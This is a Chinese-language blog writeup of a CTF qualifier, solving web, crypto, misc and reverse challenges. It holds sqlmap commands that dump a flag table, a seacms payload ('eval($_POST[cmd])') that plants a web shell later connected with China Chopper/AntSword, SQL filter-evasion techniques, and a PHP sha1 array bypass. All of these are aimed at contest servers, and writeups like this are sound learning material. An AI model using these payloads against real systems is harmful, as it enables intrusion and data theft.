第二次参加 CTF，上次参加时还只知道古典密码。

<!--more-->

## 吐槽

在周六 8 点起床不是我的风格，但这周六我还是做到了。9 点开始比赛，到晚上近 10 点才关掉比赛网页。午饭点了外卖，傍晚跑了个步回家吃晚饭，有效比赛时间大概在 10 小时左右。

不知道为什么，现在的 CTF 比赛居然有理论题了，都是网安知识不过范围比较广，许多题得靠搜索引擎帮忙……

做理论题做到一半网站就十分卡，感觉是被人 DDOS 了。到了近十点想交理论题的时候居然交不上了，看来主办方被 D 了个措手不及，好在修复还算及时，很快就交上了。

真正的 CTF 题在 10 点准时开放，然而所有题都放在了同一个服务器上，而这个服务器又一次遭受了恶意攻击，导致所有人都看不到题（只能欣赏题面精致的文案）。我猜运维肯定一脸懵逼，以致于在我们失望地等待了**十几分钟**后赛题才恢复正常。在此期间，积分榜却是开放的，上面全都是选手实名。。。十分无语，现在我应该不知道被社工多少次了。

等待网站恢复时发现**第三题题面的图片**很有趣，看起来像是帮助解题的关键线索：



通过 Google 图片搜索，我在 [这里](http://www.wikiwand.com/zh/%E4%B8%AD%E6%96%87%E7%94%B5%E7%A0%81) 发现了相关介绍，不过后来事实证明这跟解题一点关系也没有。

下面是 writeup 正文，大部分结果都是由队友启发得到的。

## 1. 土肥原贤二



显然这里可以查询数据库，考虑 SQL 注入攻击。输入 1 查询后发现 payload 可以构造为 `gid=1`，然后 Kali 下运行 sqlmap 可以直接得到 flag。

```shell
$ sqlmap -u 'http://47.103.43.235:81/quest/web/a/index.php?gid=1' --current-db
# current database: luozhen
$ sqlmap -u 'http://47.103.43.235:81/quest/web/a/index.php?gid=1' -D luozhen --tables
# tables in database luozhen: flag, good
$ sqlmap -u 'http://47.103.43.235:81/quest/web/a/index.php?gid=1' -D luozhen -T flag --columns
# columns in table flag: flag, id
$ sqlmap -u 'http://47.103.43.235:81/quest/web/a/index.php?gid=1' -D luozhen -T flag -C flag,id --dump
```

## 2. 吴佩孚



网页内的字符串符合典型的 Base64 编码的格式，解码得到 jsfuck 代码，在浏览器 Console 中运行即得到 flag。

## 3. 死亡真相

坑题，题面和音频疯狂暗示摩斯电码，但实际上跟摩斯电码根本没有关系。听音频听不到什么有用的信息，于是用 Cool Edit Pro 打开并查看频谱图：



然而尝试提交后发现不是 flag。

注意到三个下划线有异样，猜想它们是 flag 中的空缺字符。爆破难度较大，因此大胆猜测三个下划线**表示的是同一个数字**。从 0 开始尝试到 9 但都不是正确的 flag。

观察新得到的 flag 值，发现其长度**恰好为 32 个字符**，这与 md5 算法哈希的结果形式一致。在 [这个神奇的网站](https://pmd5.com) 尝试 md5 解密得到 flag，即下划线表示 0。

注：右键查看音频属性可以看到两个 zero 一个 0，早点看到就不用试那么多次了。。而且即使保留下划线进行 md5 解密同样可以获得 flag，但是要想到 md5 并不容易，略坑。

## 4. 日军空袭

网页中的内容明显是 Base64 编码，进行多次解码（第一次解码无输出，尝试结尾加一个 / 两个等号就可以解码了）并 Unescape 后，重新排列得到的字符串，获得 flag。



## 5. 飞虎队

天坑，参考了 [这篇博客](http://2-dreamfever.lofter.com/post/1d226cf1_748daf4?tdsourcetag=s_pcqq_aiomsg)。

对希尔矩阵求逆、通分、模 26 意义下加法后，得到解密矩阵：

```
8    16    27
8    99    24
27   24    27
```

将密文 3 个字符分为一组，转为 ASCII 码后再乘以解密矩阵，再模 26 对应到英文字母，就可以得到 flag。这个做法真的很坑。

## 6. 戴星炳

```python
import requests
from bs4 import BeautifulSoup
import lxml

url = "http://47.103.43.235:82/web/a/index.php"
res = requests.session()
ret = res.get(url)
soup = BeautifulSoup(ret.content, 'lxml')
t = eval(soup.children.__next__().next()[1].contents[0])

data = {
  'result': t
}

flag = res.post(url, data=data)
print(flag.text)
```

由于要求 2 秒内算出，因此考虑用 python 脚本发送请求，并计算算式的值后提交得到 flag。

## 7. 大美晚报

> （假装这里有一张二维码图片）

对我来说有点难的 Misc 题。一开始以为是 web，但是根本没办法通过解析二维码得到什么有用的信息。只能下载图片，binwalk 一下，果然有压缩包：



根据密码是管理员 qq 号的线索，fcrackzip 跑半小时爆破 zip 密码…… 得到 flag。

## 8. 潘汉年

```python
s = u"bg[`sZ*Zg'dPfP`VM_SXVd"
t = u""
for i in range(0, len(s)):
  t = t + chr(ord(s[i])+i+1+3)
print(t)
```

看到密文形式很容易想到凯撒，但是本题的关键在于猜出这个凯撒变体是怎么变的。猜的方法其实很通用，**将前四个字母对应到 “flag”**，观察凯撒变换的规律即可。

## 9. 袁殊

虽然我知道 RSA 算法的原理，但这题似乎依然在我能力范围之外。参考了 [这篇博客](http://blog.sina.com.cn/s/blog_6dc0c58b0102xf3w.html)。

其实就是原题改了数据，主办方有点不走心啊。。按葫芦画瓢，先解出 e 和 n：

```shell
$ openssl rsa -pubin -text -modulus -in fllllllag.txt -in gy.key
Public-Key: (256 bit)
Modulus:
    00:a9:bd:4c:7a:77:63:37:0a:04:2f:e6:be:c7:dd:
    c8:41:60:2d:b9:42:c7:a3:62:d1:b5:d3:72:a4:d0:
    89:12:d9
Exponent: 65537 (0x10001)
Modulus=A9BD4C7A7763370A042FE6BEC7DDC841602DB942C7A362D1B5D372A4D08912D9
writing RSA key
-----BEGIN PUBLIC KEY-----
MDwwDQYJKoZIhvcNAQEBBQADKwAwKAIhAKm9THp3YzcKBC/mvsfdyEFgLblCx6Ni
0bXTcqTQiRLZAgMBAAE=
-----END PUBLIC KEY-----
```

在 [这里](http://factordb.com) 因式分解 n，得到 p 和 q。

最后写 python 脚本得到 flag：

```python
import gmpy2
import rsa
p = 273821108020968288372911424519201044333
q = 280385007186315115828483000867559983517
n = 76775333340223961139427050707840417811156978085146970312315886671546666259161
e = 65537
d = int(gmpy2.invert(e, (p-1)*(q-1)))
privatekey = rsa.PrivateKey(n, e, d, p, q)
with open("fllllllag.txt", "rb") as f:
  print(rsa.decrypt(f.read(), privatekey).decode())
```

## 10. 76 号

难题。用 IDA 观察了很久很久，唯一有点线索的是这个**sub_8048580**：



（此处省略了一部分代码）



看到了显眼的 **48 和 97**，猜测是根据输入字符的 ASCII 码判断密码是否正确，将上面的代码（只截了一部分）仔细整理成表格查看，可以得到这样一张表（已对第二列去重）：

```
0  0
7  5
9  1
b  11
d  3
e  7
f  4/8
i  9
j  10
k  12
v  2
w  6
```

从这张表中还是看不出什么端倪，然而如果单看第二列的话，感觉第二列的所有数字正好组成了模 13 的最小非负完全剩余系。~~众所周知，~~ 在解谜游戏中遇到这种完全剩余系，一般都会考虑**指向性谜题**。本题也同样适用，即把 0 放到第 0 位，7 放到第 5 位，9 放到第 1 位…… 以此类推，就可以得到 13 位的密码，也就是 flag 了。

```shell
$ ./obfuse
Password: 09vdf7wefijbk
Correct!
```

## 11. 晴气庆胤

查看源代码发现：


说明要构造两个不同的字符串且它们的 md5 值相同，因此在 Burp/Postman 中发送 POST 请求：



## 12. 梅津美治郎

在 IDA 中打开 Auth.exe，观察 `_main` 函数，在函数末尾发现：



可以立即得到第一关密码 “r0b0RUlez!“。对于第二关密码，可以确定的是依然会调用 `strcmp` 函数，因此我们需要找到 `call strcmp` 语句并设置断点，此时第二关需要的密码应该可以在栈中找到。首先查找 `strcmp`:



设置断点并调试：



查看 `EAX`：



得到疑似第二关密码：



输入后发现密码错误，因此我们需要回去看一下，我们忽略了什么环节。在上图的 `_main` 伪代码中，我们看到 "You passed level1!" 后就没有看下去了，然而下面的 `sub_4015EA` 却是第二关的关键：



这里发生了异常跳转。我们查找它的外部引用，进入了 `sub_40157F`:



见到了老朋友 `scanf` 函数，下一步当然是跟踪进 `sub_401547`：



答案很明了了。原来这个函数对我们刚才得到的 “第二关密码” 又进行了按位异或 2。于是我们作同样计算后得到第二关密码：



Flag 只需要用下划线拼接两关密码即可。

## 13. 冈村宁次

显然又是 SQL 注入，唯一的注入点在 `id`。url 中出现的 `id===QM`，三个等号看起来很奇怪，大胆猜测 `==QM` 是倒置的 Base64 编码，解码 `MQ==` 得到 1，正好与列出数据的 `id` 一致。因此只需要写注入语句后进行一次 Base64 编码，再反转字符串即可。

多次尝试后得出结论：本题过滤了等号、空格、union、select、or 等关键字，因此采用双写绕过、十六进制绕过、注释绕过等手段改写 SQL 语句实现注入。这里 sqlmap 就很难帮到我们了。



## 14. 作战计划

网站唯一的注入点位于搜索框，查阅有关 seacms 漏洞的资料来构造 payload：

[http://47.103.43.235:84/search.php?searchtype=5&tid=&area=eval($\_POST[cmd])](#)

并连接菜刀 / 蚁剑，拿到网站 shell 后可以在根目录发现 flag.txt。

## 15. 池步洲

在源代码中发现：

```html
<!-- index.phps -->
```

访问该文件，得到：

```php
<?php
error_reporting(0);
$flag = '********';
if (isset($_POST['name']) and isset($_POST['password'])){
  if ($_POST['name'] == $_POST['password'])
    print 'name and password must be different';
  else if (sha1($_POST['name']) == sha1($_POST['password']))
    die($flag);
  else print 'invalid password';
}
?>
```

可以看到这里要求：name 和 password 不同，且 sha1 值相同。由于 php 中的 sha1 漏洞会使任意两个数组的 sha1 值相同，因此构造 payload：



## 总结

由于参加比赛太少，经验还是有欠缺，比赛时对很多常见的模式都没有足够的敏感度，许多工具也是现场搭起来用的。

Reverse 和 Pwn 还是超级菜，后者并没有在初赛出现，但是据说决赛会有很多 Pwn 题。。记得去年决赛发呆 5 小时做了题隐写，希望今年能不垫底？
